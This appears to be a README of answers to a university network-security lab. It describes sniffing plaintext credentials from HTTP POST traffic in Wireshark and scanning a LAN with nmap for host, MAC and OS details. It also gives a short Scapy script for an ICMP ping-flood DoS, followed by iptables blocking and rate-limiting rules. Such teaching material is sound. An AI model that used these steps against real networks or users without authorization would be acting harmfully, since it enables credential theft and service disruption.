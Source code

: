 # MSEI 021

## Question 1: Implement the network sniffers to find out usernames and passwords by retrieving the packets from HTTP POST on any website.
Steps Using Wireshark (No Code Needed):

Open Wireshark.
Select your network interface.
Apply the filter: http.request.method == "POST".
Capture traffic, identify HTTP POST packets, and inspect their payload for credentials.

Note: HTTP POST often transmits data like usernames and passwords in plain text. Ensure ethical and authorized use.

## Question 2: Define the topology used in LAN and scan the network with details like IP, MAC Address, Host name, Username, and OS details of at least 10 machines, and generate the report.
Using nmap Command (No Code Needed):

Install nmap:
```bash 
sudo apt install nmap
```

Scan your LAN:
```bash 
sudo nmap -sn 192.168.1.0/24
```
(Replace 192.168.1.0/24 with your subnet.)

To get detailed information, use:

sudo nmap -A -T4 192.168.1.0/24
(This will provide details like IP, MAC Address, Hostname, OS, and open ports.)

Save the output:

sudo nmap -A -T4 192.168.1.0/24 > network_report.txt
(The results will be stored in network_report.txt.)

## Question 3: Attempt a DoS/DDoS attack on the target computer and display the list of IPs with access details. Prevent the DDoS attack using any firewall.

Part A: Attempt DoS Attack
Code for DoS Attack Using Scapy:

python

from scapy.all import *

target_ip = "192.168.1.100"  # Replace with the target IP
packet = IP(dst=target_ip)/ICMP()  # ICMP packets for ping flood

print("Starting DoS attack...")
send(packet, count=10000, inter=0.001)  # Sends 10,000 packets
print("DoS attack completed.")

Part B: Display IPs Who Attempted the Attack
Monitor logs using:

bash
sudo tail -f /var/log/syslog

Use iptables to track incoming traffic:

bash
sudo iptables -L -n -v

Part C: Prevent DDoS Using Firewall
Commands to Block IPs Using iptables:

Block specific attacking IP:

bash
sudo iptables -A INPUT -s <attacker-ip> -j DROP

Use rate limiting to mitigate attacks:

bash
sudo iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j DROP
